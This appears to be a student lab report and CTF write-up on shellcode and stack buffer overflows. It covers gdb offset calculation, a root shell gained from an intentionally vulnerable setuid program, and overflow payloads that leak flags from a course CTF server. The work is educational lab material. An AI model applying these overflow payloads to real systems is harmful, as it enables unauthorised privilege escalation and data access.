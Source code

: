 # Work developed in week 5

## **Lab Tasks**

### Task 1

After creating the two binnaries with the Makefile we executed both. The results are listed bellow:

```bash
# Normal bash
seed@8e1ec14993da:~/shellcode$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
seed@8e1ec14993da:~/shellcode$ whoami
seed
seed@8e1ec14993da:~/shellcode$ ps -p $$
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
seed@8e1ec14993da:~/shellcode$ env
HOSTNAME=8e1ec14993da
PWD=/home/seed/shellcode
HOME=/home/seed
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
TERM=xterm
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/home/seed
```

```bash
# 32-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a32.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
   96 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

```bash
# 64-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a64.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
  102 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

Both 32-bit and 64-bit binaries have the same output, since they both execute `execve()` call with "*/bin//sh"* as the first argument, and we can see no environment variables are passed in that call, since the third argument is "*0"*.

### Task 2

This task requeires us to analize the code, which has a buffer overflow vulnerability, and to prepare the compilation for Task 3. The goal is to get acess to the root shell, exploiting that vulnerability, and to do so first we need to turn off the StackGuard and the non-executable stack protections, and give the programn the required permissions, as described in the highlighted *Compilation* section.

### Task 3

Since we already explored the code and know that we have to perform a buffer overflow, we will start by executing the code in the lab guide to get the buffer’s starting position and the place where the return-address is stored:

```bash
[11/21/21]seed@VM:~/.../tarefa$ touch badfile
[11/21/21]seed@VM:~/.../tarefa$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x122d: file stack.c, line 11.
gdb-peda$ run
...
Breakpoint 1, bof (str=0xffffcf77 "") at stack.c:11
11	{
gdb-peda$ next
...
14	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb48
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcadc
gdb-peda$ quit
```

The *Base Pointer* is at "0xffffcb48" and the *buffer’s starting position* is at "0xffffcadc". 
Knowing these two values, the shellcode size, and the size written to the buffer, we know that the shellcode must be placed 517 positions from the *buffer’s starting position* (buffer has 517 size) minus the number of positions the shellcode occupies.

```jsx
start = 517 - len(shellcode)
ret    = 0xffffcadc + start
offset = (0xffffcb48 - 0xffffcadc) + 4
```

We can cause a buffer overflow to override the return address, located above the *Base Pointer*, so the offset value should be the difference between the *buffer’s* and the *Base Pointer's* address, plus the *Base Pointer* size. With this vulnerability we can execute a shell with root privileges and execute any code:

```bash
[11/21/21]seed@VM:~/.../tarefa$ python3 exploit.py 
[11/21/21]seed@VM:~/.../tarefa$ ./stack-L1
Input size: 517
# ls -l                                              
total 192
-rwxrwxrwx 1 seed seed   965 Nov 10 04:09 Makefile
-rw-rw-r-- 1 seed seed   517 Nov 21 09:17 badfile
-rwxrwxrwx 1 seed seed   270 Nov 10 04:09 brute-force.sh
-rwxrwxrwx 1 seed seed  1004 Nov 21 09:17 exploit.py
-rw-rw-r-- 1 seed seed    11 Nov 21 09:16 peda-session-stack-L1-dbg.txt
-rwxrwxrwx 1 seed seed 15908 Nov 16 04:56 stack
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L1
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L1-dbg
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L2
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L2-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L3
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L3-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L4
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L4-dbg
-rwxrwxrwx 1 seed seed  1131 Nov 21 09:13 stack.c
# exit
```

Bellow is our drawn schema, that helped us visualize the stack and addresses, so we know which values to change in *exploit.py*

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c34d50fc-def9-4c9d-8afb-b3dd6bafaa70/Untitled.png)

## **CTF write-up/resolution**

### Challenge 1

We start by analising the compiled program, checking which protections it has. Using the `checksum` command we can see its architecture (little-endian) and some permissions:

```bash
$ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments
```

After looking at the code we can answer the questions in moodle:

- The program reads the "*mem.txt" file*
- We can control which file is open if we change the "*meme_file*" variable
- A buffer overflow vulnerability is present. We can cause an overflow of the "*buffer*" variable in the `scanf` call, since the function can read up to 28 characters and *buffer* only has size of 20.

Therefore, when the input is requested to the user though the `scanf` call, we can write, for example,  "aaaaaaaaaaaaaaaaaaaaflag.txt". This way we fill the *buffer* with the 20 "a"s characters and cause an overflow of "flag.txt" to *meme_file* variable. Afterwards, in the `fopen` call, the file opened will be "flag.txt" instead of "mem.txt", in the `fgets` call the first 20 characters will be read from that file, and the flag is shown in the console.

```bash
[11/17/21]seed@VM:~/.../Semana5-Desafio1$ nc ctf-fsi.fe.up.pt 4003
Try to unlock the flag.
Show me what you got:aaaaaaaaaaaaaaaaaaaaflag.txt
Echo aaaaaaaaaaaaaaaaaaaaflag.txt
I like what you got!
flag{cd69acd607d4815defdf0c99bd62fc36}
```

### Challenge 2

This Challenge is similar to the above, similar program with the same `checksec` output, except that now these are the variables declared in the start of main():

```c
char meme_file[8] = "mem.txt\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[20];
```

And we have the following if condition, blocking us from seeing the contents of the file:

```c
if(*(long*)val == 0xfefc2122)
```

But it doesn't mitigate the problem completely. To read the flag in the *flag.txt* file we need to perform a similar buffer overflow to the previous challenge, but now, additionally, we need to make sure that the value in `val` is equal to `0xfefc2122` bytes.With the provided python script, we can change the input to be sent to the following:

```python
r.sendline(b"a"*20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
```

This way, we send 20 characters to fill the buffer, set the correct value of `val` to match the required *if condition*, and finally change the value of `meme_file`. Once again we are successful and get the flag inside *flag.txt* file. Important to note that we send the "0xfefc2122" in bytes in the reverse order, due to that fact that the architeture is *little endian.* Little-endianness refers to the byte ordering where the least significant byte is stored first. So in this case, if we have the 4-byte value of "0xfefc2122" we would store it in memory, in the *val* buffer, in the following way: "22 21 fc fe" (\x22\x21\xfc\xfe).
